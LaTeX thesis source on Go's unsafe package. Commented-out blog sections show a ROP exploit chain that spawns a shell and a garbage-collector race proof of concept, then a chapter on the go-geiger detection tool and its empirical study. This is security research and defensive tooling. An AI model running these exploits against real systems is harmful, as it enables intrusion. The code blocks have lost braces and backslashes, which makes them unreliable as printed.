%        ssizet read(int fd, void *buf, sizet count);
%
%        read() attempts to read up to count bytes from file descriptor fd into the buffer starting at buf.
%
%
%        We can use the same technique to spawn the syscall as above. The syscall table shows that this time we need to call
%        the syscall with number 0. The file descriptor for standard input also has the number 0. Thus, we need to create the
%        following register situation:
%
%        - rax: 0x0
%        - rdi: 0x0
%        - rsi: 0x00551000
%        - rdx: 0x100
%
%        Conveniently, we already have the ROP gadgets needed and only need to rearrange:
%
%        python
%        payload += p64(poprax)  sete in poprdi mitigation
%        payload += p64(dummy)
%        payload += p64(poprdi)  1ST ARGUMENT
%        payload += p64(0x0)  STDIN
%        payload += p64(poprsi)  2ND ARGUMENT
%        payload += p64(buf)  ADDRESS
%        payload += p64(poprdx)  3RD ARGUMENT
%        payload += p64(0x100)  SIZE
%        payload += p64(eax0)  SET RAX = 0
%        payload += p64(syscall)  SYSCALL
%
%
%
%        Now, we have to provide some code that actually spawns a shell. This 27 bytes assembly program will spawn /bin/sh. It
%        is taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php).
%
%        python
%        http://shell-storm.org/shellcode/files/shellcode-806.php
%
%
%        We send it right after the payload in the resulting python script.
%
%
%        **Step 3: Jump to the code**
%
%        Running the code we just read in is as simple as jumping to it. And jumping to it means we only have to provide its
%        address as the next return address:
%
%        python
%        payload += p64(buf)
%
%
%        If we run the final exploit, we get the following output:
%
%        shell
%        johannes@host-pc ~  ./exploitrop.py
%        [+] Starting local process './main': pid 75369
%        [*] Switching to interactive mode
%        id
%        uid=1000(johannes) gid=1000(johannes) groups=1000(johannes),54(lock),1001(plugdev)
%
%
%
%        We have successfully spawned and control a shell. It runs in the same context as the program did, that is the user
%        context here. In a next step, we could try to run a local root exploit to escalate privileges.
%
%
%
%%% -----------------------------------------------------------------------------
%
%        \section{Part 4}
%
%        Garbage Collection
%
%        First, let's quickly go through garbage collection. Go offers memory management to the programmer. It automatically
%        allocates memory for object instances or values, such as integers, slices, or structs. It also keeps track of whether
%        those objects are still in use, and frees the memory when they aren't anymore.
%
%        The Go garbage collector runs in the background as its own Goroutine. In fact it's several Goroutines. The garbage
%        collector can be triggered manually by calling runtime.GC(), but usually it runs automatically when the heap doubles
%        its size. This size threshold can be adjusted with the GOGC environment variable. It is set to a percentage. The
%        default is 100, meaning the heap has to grow by 100% to trigger the garbage collection. Setting it to 200 for example
%        would mean that the collection is only started when the heap has grown to three times the previous size. On top of the
%        size condition there is also a timing condition: as long as the process is not suspended, the garbage collector will run
%        at least once every two minutes.
%
%        Go uses a [Mark-and-Sweep garbage collector](https://en.wikipedia.org/wiki/Tracinggarbagecollection). This type of
%        garbage collection consists of two phases:
%
%        1. Mark: by recursively following all references, starting from variables in scope, reachable heap objects are marked
%        2. Sweep: objects that are not marked are freed
%
%        These steps can be seen in the following figure:
%
%        ![Mark and Sweep Garbage Collection](assets/gc.png)
%
%        The light blue boxes in the heap are objects that are reachable (through the references shown by the arrows). The white
%        objects are unreachable and will be freed in the sweep phase.
%
%
%        Explicit casting using unsafe pointers
%
%        Now, we will look at the most common usage pattern for unsafe.Pointer in real-world open-source Go code: casting a
%        slice of some type or string into a slice of some other type. Let's say we wanted to convert a string to a []byte
%        slice in-place, that is reusing the string memory instead of copying it into a new slice allocation.
%
%        A frequent pattern to do this looks like this:
%
%        go
%        func unsafeStringToBytes(s *string) []byte
%        sh := (*reflect.StringHeader)(unsafe.Pointer(s))
%        sliceHeader := reflect.SliceHeader
%        Data: sh.Data,
%        Len:  sh.Len,
%        Cap:  sh.Len,
%
%        return *(*[]byte)(unsafe.Pointer(sliceHeader))
%
%
%
%        The function gets a *string pointer (sometimes it will also be a direct string) and returns a []byte slice. Let's
%        look at what it does, line by line.
%
%        First, a reflect.StringHeader is created from the string. The StringHeader is Go's internal representation of a
%        string. It is very similar to the reflect.SliceHeader that we saw in the previous posts of this series:
%
%        go
%        type StringHeader struct
%        Data uintptr
%        Len  int
%
%
%
%        The only difference is that there is no Cap field. In fact, strings in Go are by most means just a read-only []byte
%        slice. There are some differences, for example that range will iterate over runes instead of bytes, where a rune is
%        a Unicode code point. Because strings in Go are encoded in UTF-8, a Unicode code point might need multiple bytes (like
%        the German umlaut ä), and in that case range will read multiple bytes in one iteration. But in other ways, like the
%        length, strings behave like []byte slices. For example, len("ä") is 2, even if the string has only one character.
%        You can read more on this topic in the [Go strings documentation](https://blog.golang.org/strings).
%
%        When we have a variable of type string in Go, it points to a reflect.StringHeader structure, which in turn has a
%        pointer to the underlying byte-array holding the string data in its Data field. To get the StringHeader, we cast
%        it from an unsafe.Pointer which in turn is created by casting the string pointer. If the function would have received
%        a string instead of *string, we would have needed to do unsafe.Pointer(s) here, but the rest would stay the same.
%
%        Now, a *reflect.SliceHeader is created from scratch, by a composite literal. The Data and Len fields are just
%        copied from the StringHeader, and Cap is set to the same value as Len.
%
%        Lastly, we cast the *reflect.SliceHeader into a *[]byte, again using an intermediate unsafe.Pointer object. The
%        *[]byte is dereferenced and returned.
%
%        Thus the function is casting a string into a []byte object.
%
%
%        First problem: implicit read-only slices
%
%        Remember that the Go documentation said that strings
%        are **read-only** []byte slices? Well, that could turn into a problem here! The []byte object returned by the
%        function is not read-only anymore, so the compiler will not complain if we modify its contents:
%
%        go
%        func main()
%        s := "Hello"
%        b := unsafeStringToBytes(s)
%
%        b[1] = "a" // this will crash
%
%        fmt.Println(b)
%
%
%
%        The reason strings are read-only is because when we create a string like in the example above, the actual string literal
%        (the Hello data) is placed in a special section in the binary file produced by the compiler. When the program is run,
%        this section is probably mapped into a read-only memory page. Therefore, the Data field in the StringHeader and
%        SliceHeader structures will contain an address inside that read-only page.
%
%        If we now change the slice with b[1] = "a", we attempt to change a read-only memory page. The operating system will
%        prevent this and the result is a SIGSEGV segmentation fault, crashing the program.
%
%        The fact that this is a memory access violation that the compiler will not notice since we skipped its checks when we
%        used unsafe.Pointer is unfortunate, but a careful programmer could in theory make sure that all usages of the unsafe
%        cast function will never change the resulting slice. At all. I think this is a pretty dangerous assumption to make and
%        sooner or later there will be a programmer adding code that changes the slice. Therefore the casting pattern above
%        should be avoided at all costs.
%
%        But there is a second, much more subtle and dangerous problem in the code above.
%
%
%        Garbage collector race introduced by slice and string header literals
%
%        Rule 6 of the [unsafe package documentation](https://golang.org/pkg/unsafe/) specifically states that "A program
%        should not declare or allocate variables of these struct types." Why is that?
%
%        When the garbage collector runs the mark phase, it follows pointer references to recursively mark the objects referenced
%        by the pointer. An unsafe.Pointer and the address stored in the Data field of a valid StringHeader or SliceHeader
%        will do the same. This means that sh.Data in the unsafe function above will in fact be treated as a reference value,
%        therefore the garbage collector will not free the underlying array.
%
%        However, plain uintptr and invalid slice or string header values are not treated as references.
%
%        Whenever the address of a value is only stored in variable of type uintptr (not additionally in any pointer types),
%        the garbage collector will not mark the referenced object and therefore free it. The freed memory might be reused with
%        new variables, or the memory page might simply be unmapped, or anything else might happen. Importantly, objects that are
%        only reachable by using an address that was stored in a uintptr variable must be treated as gone.
%
%        Unsafe usage rule 2 states that only a "conversion of an unsafe.Pointer to a uintptr (but not back to Pointer)"
%        is allowed. The part in parenthesis is important. If we create an unsafe.Pointer object from a previously stored
%        uintptr value, that unsafe.Pointer is a potentially dangling pointer, and dereferencing is not a safe operation!
%
%        There are some cases where unsafe.Pointer objects are created from pointer arithmetic on uintptr values, but those
%        calculations must happen in the same statement as creating the pointer. We must never store a reference to something
%        only in a uintptr value.
%
%        Now, let's revisit the code example above.
%
%        go
%        func unsafeStringToBytes(s *string) []byte
%        sh := (*reflect.StringHeader)(unsafe.Pointer(s))
%        sliceHeader := reflect.SliceHeader
%        Data: sh.Data,
%        Len:  sh.Len,
%        Cap:  sh.Len,
%
%
%        // At this point, s is no longer used. There is a copy of the address of
%        // its underlying array in sliceHeader.Data however, and since sliceHeader
%        // was not created from an actual slice, the GC does not treat the address
%        // as a reference. Therefore, if the GC runs here it will free s.
%
%        return *(*[]byte)(unsafe.Pointer(sliceHeader))
%
%
%
%        At the point of the comment, the garbage collector can potentially run. Remember that it is triggered by heap usage
%        growth, and runs concurrently. If the function is used within a program that uses several Goroutines, the garbage
%        collector can essentially trigger at any point, including the one with the comment.
%
%        When it runs, it will free string s because it is no longer used. When the []byte slice is created in the next line,
%        its Data field will contain an invalid address. It might now point to an unmapped memory page, or simply to some
%        undefined position in the heap that might get reused later on.
%
%
%        PoC: Exploiting this GC race condition
%
%        To see what can happen with this, let's look at the following proof-of-concept code. First, I add the following line
%        at the position of the comment above:
%
%        go
%        time.Sleep(1 * time.Nanosecond)
%
%
%        This just makes the exploit a bit more reliable, but is not strictly needed. Next, I add a Goroutine that will just use
%        up more and more heap and constantly drop the references to that allocated memory. This will regularly trigger the
%        garbage collector.
%
%        go
%        func heapHeapHeap()
%        var a *[]byte
%        for
%        tmp := make([]byte, 1000000, 1000000)
%        a = tmp
%        = a
%
%
%
%
%        Finally, the main Goroutine does the following:
%
%        go
%        reader := bufio.NewReader(os.Stdin)
%        count := 1
%        var firstChar byte
%
%        for
%        s,  := reader.ReadString('n')
%        if len(s) == 0
%        continue
%
%        firstChar = s[0]
%
%        // HERE BE DRAGONS
%        bytes := unsafeStringToBytes(s)
%
%        ,  = reader.ReadString('n')
%
%        if len(bytes) > 0  bytes[0] != firstChar
%        fmt.Printf("win! after d iterationsn", count)
%        os.Exit(0)
%
%
%        count++
%
%
%
%        It initializes a reader to read data from stdin. Then it repeatedly reads two lines from it in a loop. A counter is
%        used to count how many loops are needed to succeed. The firstChar variable is set to the first char from the first
%        line that is read.
%
%        Then, the first line (a string) is converted to a []byte slice using the unsafe casting function from above. At this
%        point, bytes and s should be the same string. Particularly, the bytes[0] should equal firstChar.
%
%        After the conversion, the second line is read. The result from ReadString is not even used, but the important part of
%        this is that if the garbage collector was run inside unsafeStringToBytes, then ReadString will reuse the heap space
%        that was previously freed.
%
%        Lastly, we check if bytes[0] is actually equal to firstChar, and if it is not we have successfully created a data
%        confusion by exploiting a garbage collector race condition. The number of loop executions needed is printed at the end.
%
%        Running this program can have two different results:
%
%        1. The garbage collector finds an incorrect address in the heap and crashed the program with a hint to a possible
%        incorrect usage of unsafe.Pointer
%        2. It succeeds with the win! message
%
%        As long as the garbage collector does not trigger at the critical point in the unsafe cast function, the loop will just
%        run forever.
%
%        The first, crashing case happens when the garbage collector triggers inside the unsafe cast function, and again within
%        the second ReadString call in the PoC code. At that point, bytes will be a seemingly valid []byte slice, but its
%        Data field will point to previously freed memory.
%
%        The second, succeeding case will happen if the garbage collector triggers only inside the unsafe cast function. In that
%        case, the bytes slice will be a dangling slice pointing into the freed heap. Then, the second ReadString will reuse
%        that heap space, and provided that we sent a different string as second line, the first byte in the bytes slice will
%        now be a different character.
%
%        To achieve the alternating, but infinite input data I use the following Python script:
%
%        python
%        !/usr/bin/env python3
%
%        import errno
%        from signal import signal, SIGPIPE, SIGDFL
%        signal(SIGPIPE,SIGDFL)
%
%        try:
%        while True:
%        print("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
%        print("BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB")
%        except Exception:
%        pass
%
%
%        It simply sends alternating A and B lines, and ignores IO exceptions caused by the pipe closing abruptly when the
%        Go program crashes (which would spam the terminal with some Python error messages).
%
%        The PoC is run like this:
%
%        shell
%        ./exploit.py | ./main
%        win! after 51446 iterations
%
%
%        In my experiments, the program would crash with condition 1 about 10% of the time, and succeed in 20,000 to 100,000
%        iterations otherwise.
%
%
%        Why is this a problem? A threat model
%
%        Now, all of this might seem rather staged and a succeeding memory confusion after 50,000 iterations on average might not
%        seem that often either. But in fact this is probably the most dangerous vulnerability of the ones shown in this blog
%        series.
%
%        First, the function that contains the actual vulnerability, unsafeStringToBytes, is taken from real-world Go code.
%        There are hundreds of times this code pattern is used in open-source Go libraries, and taking into account that they
%        are reused across multiple projects, there are actually tens of thousands of times this is used in the 500 most starred
%        open-source Go projects.
%
%        Unlike in part 3 of this series, we didn't gain remote code execution with this exploit PoC. We didn't even violate the
%        read-only nature of the slice returned from unsafeStringToBytes. And the exploit is not even particularly reliable, it
%        takes thousands of iterations until the confusion happens once and sometimes the program even just crashes. Lastly, we
%        added the nanosecond sleep, further increasing the likelihood of the confusion to happen.
%
%        But risk is a combination of likelihood and impact, and the impact of this problem is potentially disastrous.
%
%        First, let's create a potential real-world use case for analysis, set the likelihood in perspective, and then talk
%        about the impact. Imagine a server application written in Go. It handles incoming requests, does some internal
%        calculations and creates an output that is sent back to the client. Of course the application holds some private state,
%        imagine credentials to the database backend or private key data for example. Let's also say that there are 1,000
%        requests coming in each second. That number of requests is not low, but also not extremely high.
%
%        Let's ignore the case of crashing the program for now, since for this threat model assessment we can just assume that
%        if the server application crashes, some daemon supervisor will just restart it. We can think of the loop in the exploit
%        proof of concept as a similar thing to the requests that are coming in. Some code path will be executed for every
%        request, and this will be kind of like a loop iteration. Furthermore, if we get a memory confusion every 50,000 requests,
%        that will add up to a bit more than one confusion per minute. The nanosecond sleep will make the confusion more likely,
%        but still this might occur every few minutes.
%
%        Now, if such a memory confusion happens, there might be some read-only slice that contains unexpected data. If the
%        server application happens to use that slice for creating the response output that is sent to the user, even with some
%        intermediate conversions in between, the application might server unexpected memory contents back to the user. So with
%        this vulnerability in place, a user might suddenly, and randomly, get some scrambled data instead of an HTML response,
%        and if that user were to look into the data they might find the application secrets. This is a clear information leak
%        vulnerability, and the fact that it is caused by widely used code makes it very dangerous.
%
%
%        The "correct" way of in-place slice casting using the unsafe package
%
%        There is a "correct" way to cast slices without copying. Whether this is really worth it has to be decided in the
%        special case, but we can at least propose a safer version of the vulnerable casting function above.
%
%        go
%        func saferStringToBytes(s *string) []byte
%        // create an actual slice
%        bytes := make([]byte, 0, 0)
%
%        // create the string and slice headers by casting. Obtain pointers to the
%        // headers to be able to change the slice header properties in the next step
%        stringHeader := (*reflect.StringHeader)(unsafe.Pointer(s))
%        sliceHeader := (*reflect.SliceHeader)(unsafe.Pointer(bytes))
%
%        // set the slice's length and capacity temporarily to zero (this is actually
%        // unnecessary here because the slice is already initialized as zero, but if
%        // you are reusing a different slice this is important
%        sliceHeader.Len = 0
%        sliceHeader.Cap = 0
%
%        // change the slice header data address
%        sliceHeader.Data = stringHeader.Data
%
%        // set the slice capacity and length to the string length
%        sliceHeader.Cap = stringHeader.Len
%        sliceHeader.Len = stringHeader.Len
%
%        // use the keep alive dummy function to make sure the original string s is not
%        // freed up until this point
%        runtime.KeepAlive(s)  // or runtime.KeepAlive(*s)
%
%        // return the valid bytes slice (still read-only though)
%        return bytes
%
%
%
%        This is a rather complicated process, but here are the important parts:
%
%        1. The bytes slice that will be returned at the end is created as an actual, valid slice using the make function.
%        It is not created by casting a plain header structure that was created as a composite literal. This ensures that
%        Go will treat the address stored in sliceHeader.Data as if it were a "real" pointer
%        2. Subsequently, the sliceHeader instance is created by casting as stated in the unsafe documentation
%        3. sliceHeader length and capacity are explicitly set to zero while the Data address still points to the old
%        underlying array. This is only necessary if the slice has not just been created. Decreasing the length and capacity
%        is a safe operation, and it ensures that if the garbage collector runs just after the switch of Data it will not
%        run past the slice end. This is explained in further detail below.
%        4. The StringHeader fields are copied in this order: Data, then Cap, then Len
%        5. Using runtime.KeepAlive, we tell the garbage collector that the original string s should not be freed up until
%        this point. This ensures that the underlying data array will not be freed before it is referenced by the
%        bytes slice.
%
%        When setting the Data field, the slice length and capacity should be zero as noted in point 3. This is because if the
%        target slice has a length greater than the source slice / string, and the garbage collector triggers right after
%        changing the Data field but before adjusting the Len and Cap fields, the slice would momentarily reach into
%        invalid memory. When the slice is of a type containing references, such as a struct, the garbage collector must go
%        through the slice to recursively mark the referenced objects, and if the length is set too high it will do so on invalid
%        memory. If the length is just zero, this won't happen. However, in order to ensure the referenced objects itself are not
%        freed it is imported to still have them referenced by the original slice / string. This is ensured by the call to
%        runtime.KeepAlive as stated in point 5.
%
%        Setting Len after Cap ensures that the slice never has a capacity lower than its length, which would be an illegal
%        state.
%
%        The takeaway of this should be that it is very very difficult to get this cast right and safe, and therefore this type
%        of in-place cast should better not be used at all.
%
%
%        Introducing a static code analysis tool!
%
%        Unfortunately, the go vet -unsafeptr will not catch this common type of unsafe.Pointer misuse. I developed a Vet-style
%        analysis pass that is able to catch it:
%
%% github jlauinger/go-safer no-readme %
%
%        This linter / static code analysis tool will catch the following situations:
%
%        1. There is a reflect.StringHeader or reflect.SliceHeader composite literal. It might also be contained within
%        another composite literal.
%        2. There is an assignment to the fields of a composite object of type reflect.StringHeader or reflect.SliceHeader,
%        and that object is not definitely derived by cast.
%
%        The first situation is fairly easy to detect and almost always unsafe. The linter tool will catch type aliases too. That
%        is, if you define
%
%        go
%        type MysteryType reflect.SliceHeader
%
%
%        and then do
%
%        go
%        source := make([]byte, 1, 1)
%        myHeader := MysteryTypeLen: 42, Cap: 42, Data: uintptr(unsafe.Pointer(source))
%
%
%        the linter will catch the MysteryType composite literal just as if it were a direct SliceHeader literal.
%
%        The second situation is more difficult. It analysis all assignments and uses the same mechanism to catch type aliases
%        for the object receiving the assignment as well. To determine whether it is a safe header derived from a cast, the pass
%        depends on the ctrlflow pass, receiving the control flow graph for the package. It finds the function containing the
%        assignment. Then, starting from the assignment the linter follows the graph backwards to the last assignment to the
%        object of SliceHeader or StringHeader type, and determines if that assignment is a cast from unsafe.Pointer, which
%        in turn itself is cast from a slice or string.
%
%        This means it will catch situations like these:
%
%        go
%        type MysteryStruct struct
%        MysteryHeader reflect.SliceHeader
%
%
%        func main()
%        myStruct := MysteryStruct
%        myStruct.MysteryHeader.Len = 42
%
%
%
%        The linter will figure out that the SliceHeader instance contained within the MysteryStruct has not been set by a
%        cast and issue a warning.
%
%
%

%% ---------------------------------------------------------------------------------------------------------------------

\chapter{\textit{go-geiger}: Identification of \textit{Unsafe} Usage}\label{ch:go-geiger}

This chapter presents \toolGeiger{}, a tool to find usages of the \unsafe{} \acrshort{API} in Go packages and their
dependencies.
Figure~\ref{fig:outline4} shows an outline of the contents of this chapter.
Using open-source projects from \github{} and \toolGeiger{}, an empirical study on \unsafe{} usage is done, which is
used additionally to quantitatively evaluate \toolGeiger{}.
Furthermore, a novel data set of labeled samples of \unsafe{} code is described and used as a qualitative analysis on
\unsafe{} usage in Go.

\begin{figure}[ht]
    
\includegraphics[width=\textwidth]{assets/figures/chapter4/outline4.pdf}
    \caption{Role of Chapter 4 in Thesis Outline}
    \label{fig:outline4}
\end{figure}



%% ---------------------------------------------------------------------------------------------------------------------

\section{Design}\label{sec:go-geiger:design}

The novel tool \toolGeiger{} is designed to identify usages of the \unsafe{} \acrshort{API} in Go source code.
It is available on \github{}\footnote{\url{https://github.com/jlauinger/go-geiger}}.
The tool includes the dependencies of Go packages in its analysis, which gives a more complete picture of possible
\unsafe{} usages than only looking at an individual package.
It is inspired by \toolCargoGeiger{}\footnote{\url{https://github.com/rust-secure-code/cargo-geiger}}, a similar tool
for detecting the use of \unsafe{} code blocks in Rust programs.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/figures/chapter4/go-geiger-architecture.pdf}
    \caption{Architecture of the \toolGeiger{} tool to detect unsafe usages}
    \label{fig:geiger-architecture}
    %\vspace{-10pt}
\end{figure}


Figure~\ref{fig:go-geiger-architecture} shows the architecture of \toolGeiger{}.
First, it determines the scope of code that should be analyzed for \unsafe{} usage.
To achieve this, the dependency tree of the packages given to \toolGeiger{} is built.
Then, the sources of all the packages in this tree are parsed, and the resulting abstract syntax trees (\acrshort{AST})
are inspected.
Within the \acrshort{AST}, usages of the \unsafe{} \acrshort{API} are identified.
Each usage is assigned a tuple of labels consisting of \textit{match type} and \textit{context type}.
The match type represents the part of the \unsafe{} \acrshort{API} that is used.
It can be one of the four \unsafe{} package members \textit{Pointer}, \textit{Alignof}, \textit{Offsetof}, and
\textit{Sizeof}, the \textit{reflect} package fields \textit{SliceHeader} and \textit{StringHeader}, or the
\textit{uintptr} keyword.
The context type indicates the functional part of code that the usage is found in.
It can be either an \textit{assignment}, a \textit{call} to a function, a function \textit{parameter} definition, or a
\textit{variable} definition.
Context identification is done based on the abstract syntax tree (\acrshort{AST}), which might lead to edge cases in
some programs that are not handled by \toolGeiger{}.
For example, this could happen if future releases of Go introduce new \acrshort{AST} node types.
To mitigate this possibility, the context is set to \textit{other} in \toolGeiger{} if all four other options can not be
applied.
The context allows to filter the search for \unsafe{} usages in particular functional code positions.
For example, it is possible to find only \unsafe{} usages that are used within parameters of function calls.
After the \unsafe{} usages are identified, they are counted.
For this, it is necessary to take care of package deduplication.
If a particular package exists in the dependency tree multiple times and is reachable on different paths, it must still
be counted only once when calculating the sum of \unsafe{} usages in a package's dependencies.
This is because the package does not get any less safe by including the same code multiple times.
The code is already part of the resulting program.
Finally, the analysis results are shown to the user.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/images/chapter4/go-geiger-screenshot.png}
    \caption{Usage example screenshot of \toolGeiger{}}
    \label{fig:go-geiger-screenshot}
    %\vspace{-14pt}
\end{figure}


Figure~\ref{fig:go-geiger-screenshot} shows a screenshot of \toolGeiger{}.
It presents the analysis results for the \textit{go-geiger} source code itself.
However, to decrease the space needed to display the figure, parts of the table with \unsafe{} counts have been
excluded.
The output is composed of three sections.
The first is a table showing the \unsafe{} usage counts for each package in the dependency tree for the packages
given for analysis (Lines~1--12).
The first column indicates the total number of usages in the package including all its dependencies.
The second column shows the number for the package itself, without the dependencies.
The heading for this column is \textit{local package}.
Next, there are five columns with individual usage counts for the possible context types described above.
These columns add up to the \textit{local package} count.
Finally, the import path for the package is given to identify it.
Lines that are printed in green (Lines~11 and~12 in Figure~\ref{fig:go-geiger-screenshot}) represent packages with no
local \unsafe{} usages.
Red lines (Line~9) are packages that directly contain \unsafe{} code, and white lines (e.g.~Line~3) indicate that the
package does not contain \unsafe{} usages itself, but introduces them through its dependencies.
After the table, a summary of the number of packages belonging into these three categories is shown (Lines~13--16).
The output concludes with a legend for the colors (Lines~18--20).


%% ---------------------------------------------------------------------------------------------------------------------

\section{Implementation}\label{sec:go-geiger:implementation}

The identification of the dependency trees for the packages to analyze, as well as the parsing of the source code, is
done using the standard Go compiler toolchain.
It is accessible using the \textit{packages}
\acrshort{API}\footnote{\url{https://pkg.go.dev/golang.org/x/tools/go/packages}}.
Similarly, the inspection of the \acrshort{AST} is done using the \acrshort{API} available through the \textit{ast}
package in Go\footnote{\url{https://golang.org/pkg/go/ast/}}.

To find \unsafe{} usages corresponding to the different match types shown in Figure~\ref{fig:go-geiger-architecture},
the \acrshort{AST} is filtered for selector expressions (\textit{SelectorExpr} nodes) and identifiers (\textit{Ident}
nodes).
The first indicate possible usages of \textit{unsafe.Pointer}, \textit{Alignof}, \textit{Offsetof}, \textit{Sizeof},
\textit{reflect.SliceHeader}, or \textit{StringHeader}.
The second is used to find instances of \textit{uintptr}.
In both cases, the concrete identifier names in the \acrshort{AST} nodes are checked to distinguish \unsafe{} usages from
arbitrary other field accesses.
The context type is determined by going up in the \acrshort{AST} starting at the expression node corresponding to a
given \unsafe{} usage.
For example, an \unsafe{} usage is considered part of the \textit{assignment} context type if it is a descendant of
either an assignment statement (\textit{AssignStmt} node), composite literal (\textit{CompositeLit}), or return
statement (\textit{ReturnStmt}).
The \textit{call}, \textit{parameter}, and \textit{variable} classes correspond to call expression (\textit{CallExpr}),
function declaration (\textit{FuncDecl}), and general declaration (\textit{GenDecl}) nodes, respectively.
To achieve an effective assignment of the context type, the order in which the different types are checked is important.
This is because an \unsafe{} usage could be included in several context types in an example like
\textit{x~:=~f(unsafe.Pointer(y))}.
The \acrshort{AST} for this statement consists of an assignment statement, where the right hand side is a call
expression.
This call expression contains the \unsafe{} usage.
Therefore, by ascending in the \acrshort{AST} and depending on the order of checking, both context types \textit{call}
and \textit{assignment} could be applied.
Which order should be used is a design decision, and for \toolGeiger{} it is \textit{assignment}, \textit{call},
\textit{parameter}, and finally \textit{variable}.
Thus, the example above would be classified as \textit{assignment}.

The \unsafe{} usage counts are first collected individually for every package.
A cache is used to avoid analyzing the same package multiple times if it is present multiple times in the dependency
tree.
This cache is aware of possibly different versions of the same package and stores them separately.
When the usage count including dependencies is calculated, \toolGeiger{} starts with the root packages that were
requested for analysis by the user, and recursively calculates the respective counts.
Again, the cache is used to avoid summing up multiple times.
This approach is a depth-first traversal of the dependency tree.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Quantitative Evaluation}\label{sec:go-geiger:quantitative-evaluation}

To evaluate \toolGeiger{} on real-world code, it is used to gather empirical data about the usage of \unsafe{} in
popular open-source Go projects.
This section presents a study which was designed to answer the following research questions:

\begin{enumerate}[left=0.5cm, label={RQ\arabic*}]
    \item How prevalent is \unsafe{} in Go projects? \label{rq:prevalApp}
    \item How deep are code packages using \unsafe{} buried in the dependency tree? \label{rq:depsDepth}
    \item Which \unsafe{} keywords are used most? \label{rq:distTypes}
    \item Does \unsafe{} usage correlate to project metrics such as age or popularity? \label{rq:popularity}
    \item How does the use of \unsafe{} change over the lifetime of the code? \label{rq:changeTime}
    \item Does \toolGeiger{} provide additional insights into \unsafe{} usage compared to other linters? \label{rq:linterComparison}
    \item Which \unsafe{} operations are used in practice, and for what purpose? \label{rq:purpose}
\end{enumerate}

The following subsections first discuss how the data for this study was gathered, and then answer research
questions~\ref{rq:prevalApp} to~\ref{rq:linterComparison}.
Section~\ref{subsec:go-geiger:qualitative-evaluation:purpose} presents the answer to~\ref{rq:purpose}.
It is answered later, because it is based on a novel, manually labeled data set of \unsafe{} usage purposes, which is
introduced in Section~\ref{subsec:go-geiger:qualitative-evaluation:labeled-dataset}.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Data Set}\label{subsec:go-geiger:evaluation:data-set}

To build a data set of \unsafe{} usages, first the top \projsTotal{} most-starred open-source Go projects available on
\github{} were downloaded.
This initial download was done on \checkNum{May 27, 2020}.
These \projsTotal{} projects with their respective revisions are listed in the appendix (Table~\ref{tbl:projects}).
Since \toolGeiger{} is specifically built to analyze the project dependencies, all projects that do not support the Go
modules system were removed from the set.
This is necessary to ensure that all dependencies can be automatically resolved and the respective sources are available
for analysis.
There were \projsWithoutModules{} projects that had no support for modules.
They are indicated in Table~\ref{tbl:projects} by the \textit{nm} label in the last column.
Furthermore, \projsNotCompiled{} projects could not be compiled and thus also had to be excluded from the data set.
The \textit{bf} label is used in the appendix table to mark those projects.
Since \toolGeiger{} analyzes the \acrshort{AST}, it can not work on packages that can not be parsed.
This results in a set of \projsAnalyzed{} Go projects.
These have between \checkNum{3,075} and \checkNum{72,988} stars, with an average of \checkNum{7,860}.

As a next step, the dependency trees for all projects selected for analysis were built, resulting in \packagesAnalyzed{}
unique packages.
These consist of \checkNum{186} packages that are part of the Go standard library, and \checkNum{61,839} which are not.
The average size of the packages is \checkNum{1,402} lines of code (\acrshort{LOC}), with a standard deviation of
\checkNum{5,612}, in \checkNum{4.4} Go files on average (standard deviation \checkNum{11.3}).
These packages were analyzed using \toolGeiger{}, as well as the existing static analysis tools \toolVet{} and
\toolGosec{} to allow a comparison between the findings of these tools.
The resulting findings were stored in machine-readable \acrshort{CSV} files.
